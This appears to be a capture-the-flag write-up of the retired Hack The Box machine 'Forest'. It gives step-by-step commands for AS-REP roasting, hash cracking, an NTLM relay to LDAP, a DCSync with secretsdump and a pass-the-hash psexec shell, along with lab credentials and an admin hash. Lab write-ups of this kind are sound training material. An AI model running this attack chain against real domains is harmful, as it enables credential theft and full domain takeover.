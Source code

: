 ```yaml
---
layout: default
---
```

## Forest
###### Retired March 2020
![](https://www.hackthebox.eu/storage/avatars/7dedecb452597150647e73c2dd6c24c7.png)

This is likely the most involved "Easy" Windows machine I've done so far. A sample list:
+ Kerberoasting
+ Bloodhounding
+ NTLM Relay
+ DCSync
+ Pass the Hash

Let's get started. As usual, nmap first

```bash
nmap -T4 -p- -A -oN nmap.results forest.htb
```

![](https://yaboygmoney.github.io/htb/images/forest/nmap.png)

Lots going on here. Notably SMB (445), Kerberos (88), LDAP/S (389/636), and WinRM (5985). I launch enum4linux to start pulling back information

```bash
enum4linux -a forest.htb
```

I was given a lot of information from this. First, we can see that the domain name is "HTB".

![](https://yaboygmoney.github.io/htb/images/forest/domainName.png)

In addition to that, I get a list of usernames (ones of particular interest are highlighted).

![](https://yaboygmoney.github.io/htb/images/forest/userList.png)

With the given usernames discovered, I put them into a wordlist by copying the output above into users.txt and then running

```bash
cat users.txt | awk -F ":" '{print $5}' | awk -F " " '{print $1}' > userlist.txt
```

The result is a cleaned up list

![](https://yaboygmoney.github.io/htb/images/forest/userlist2.png)

Then I started to try and ASREPRoast my userlist. [This article](https://www.tarlogic.com/en/blog/how-to-attack-kerberos/) has been really beneficial in learning how Kerberos actually works and how to get it to help my activities. The syntax is as follows:

```bash
./GetNPUsers.py [The Domain Name]/ -usersfile [filename of your userlist] -no-pass -dc-ip [the IP address of the DC]
```

So for this situation, the command is

```bash
./GetNPUsers.py HTB/ -usersfile userlist.txt -no-pass -dc-ip forest.htb
```

![](https://yaboygmoney.github.io/htb/images/forest/roasted.png)

It was a bunch of nothing until the very last user: svc-alfresco.

Because Kerberos pre-authentication was disabled for this account, we are able to send an AS_REQ (request) for a ticket granting ticket on behalf of this user to the Key Distribution Center (the DC) and get the AS_REP (response) that has enough encrypted data for hashcat to get us the password.

I took the hash kicked out from kerberoasting and ran it through hashcat against the rockyou wordlist

```powershell
hashcat.exe -a -0 -m 18200 hash.txt rockyou.txt -O -o heresthepw.txt
type heresthepw.txt
```

![](https://yaboygmoney.github.io/htb/images/forest/hashcat.png)

![](https://yaboygmoney.github.io/htb/images/forest/cracked.png)

With a username and password in hand, I spun up [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) and logged in

```bash
evil-winrm -i forest.htb -u svc-alfresco -p s3rvice
```

User flag was hanging out on svc-alfresco's desktop

![](https://yaboygmoney.github.io/htb/images/forest/user.png)

Now it's time to find our way to administrator. The quickest way to do that in an AD environment is to unleash the hound. I downloaded the [SharpHound.ps1 ingestor](https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.ps1) to my local machine and then utilized Evil-WinRM's upload feature to get it onto the machine.

```powershell
upload SharpHound.ps1
Import-Module ./SharpHound.ps1
Invoke-Bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvice
```

A few seconds later I had a zip file containing information about the domain.

![](https://yaboygmoney.github.io/htb/images/forest/hounded.png)

Then just pull back the zip with Evil-WinRM's download utility

```powershell
download 20200320080006_BloodHound.zip
```

Now I need to get Bloodhound ready to ingest this data. Step 1 of that is to spin up neo4j. Step 2 is to spin up bloodhound's UI.

```bash
neo4j console
bloodhound
```

Then it's as easy as dragging and dropping your zip file into the bloodhound interface. After a few seconds, Bloodhound is ready to show us the way. I typically click on "Queries" and then select "Find Shortest Path to Domain Admins". The result is something like

![](https://yaboygmoney.github.io/htb/images/forest/path.png)

The path shows that from my current svc-alfresco account, I can use my membership of the group "Service Accounts". Every member of "Service Accounts" inherits permission of the "Privileged IT Accounts" group. Every member of the "Privileged IT Accounts Group" is also a member of "Account Operators". "Account Operators" enjoy all of the permissions associated with "Exchange Windows Permissions", which is essentially [all permissions](https://duo.com/decipher/microsoft-exchange-users-get-admin-rights-in-privilege-escalation-attack). 

> The Exchange Windows Permissions group has WriteDacl access on the Domain object in Active Directory, which means any member of the group can modify the domain privileges, such as the ability to perform DCSync, or synchronization operations by Domain Controllers. When authentication is relayed to LDAP, objects in the directory can be modified to grant higher levels of access, such as performing DCSync to replicate users’ hashed passwords in Active Directory. An attacker with those hashed passwords can impersonate any users on the network and authenticate to any service using NTLM or Kerberos authentication.

Spoiler alert: that's exactly what I'm about to do.

In a shared environment, it's best to create a new user, because we are going to promote that user and we don't want to spoil the learning environment by just making svc-alfresco all powerful right off the bat.

```powershell
$pass = ConvertTo-SecureString "password" -AsPlainText -Force
New-ADUser ybgm -AccountPassword $pass -Enabled $True
```

I'm also going to add myself to the "Exchange Windows Permissions" group.

```powershell
Add-ADGroupMember -Identity "Exchange Windows Permissions" -members ybgm
```

I also need to run [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) to relay the credentials and escalate my user to be in a position to fire off a DCSync.

```bash
./ntlmrelayx.py -t ldap://forest.htb --escalate-user ybgm
```

![](https://yaboygmoney.github.io/htb/images/forest/server.png)

This command spins up an HTTP server. Once I navigate to my localhost, the credentials will be requested and then relayed via LDAP to the DC.

![](https://yaboygmoney.github.io/htb/images/forest/relay.png)

Back on the terminal, we can see that the credentials are relayed via LDAP. Because I added my user 'ybgm' to the Exhange Windows Permissions group, the user has "Modifying domain ACL skills". By leveraging this, my user is given the replicate changes ability needed to perform a DCSync.

![](https://yaboygmoney.github.io/htb/images/forest/worked.png)

Now I can run [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) to perform a DCSync and pull back hashes.

```bash
./secretsdump.py htb.local/ybgm:password@forest.htb -just-dc
```

![](https://yaboygmoney.github.io/htb/images/forest/secretsdump.png)

With the admin hash, I can use [PSExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) to get an administrative shell on the Domain Controller.

```bash
./psexec.py htb.local/administrator@forest.htb 'powershell.exe' -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```

![](https://yaboygmoney.github.io/htb/images/forest/root.png)

I want to end with a shoutout to the user [SmoZy](https://www.hackthebox.eu/profile/134223) who helped me get past a syntax hurdle I had with Bloodhound that allowed me to push forward. The HTB community is awesome and be sure to help teach when you can!

#### Keep trying.
